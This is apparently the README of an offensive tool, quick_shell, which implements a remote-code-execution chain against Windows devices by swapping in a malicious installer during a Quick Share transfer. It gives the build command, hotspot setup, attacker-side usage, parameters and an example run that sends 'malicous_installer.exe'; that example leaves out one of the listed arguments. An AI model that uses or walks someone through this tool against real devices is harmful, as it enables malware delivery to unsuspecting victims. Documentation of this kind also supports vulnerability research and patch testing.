 # quick_shell

Implements the full RCE chain, replacing an installer executable downloaded by a victim’s Windows device through Quick Share.

## Build
Run:
```cmd
bazel build //quick_shell_rce_tool:quick_shell
```
The executable will be created in `./bazel-bin/quick_shell_rce_tool`

## Usage
Turn on the hotspot on the Windows attacker computer, and run:
```cmd
quick_shell.exe <AP_ssid> <AP_pass> <AP_ip> <AP_freq> <file_to_send_path> <popular_files_yaml>
```

### Parameters:

* `AP_ssid`: the ssid of the access point.
* `AP_pass`: the password required to connect to the access point.
* `AP_ip`: the ip address of the access point.
* `AP_freq`: the frequency of the access point (can be retrieved using tools like smartphones' wifi analyzers)
* `file_to_send_path`: path to the file that will be sent to the victim.
* `popular_files_yaml`: path to a YAML file that maps between domain paths and the executables that  can be downloaded from them. Follow the same format as present in [popular_files.yaml](/quick_shell_rce_tool/popular_files.yaml)

### Example of running quick_shell:
```
quick_shell.exe testing_ap my_password 192.168.1.10 2701 malicous_installer.exe
```

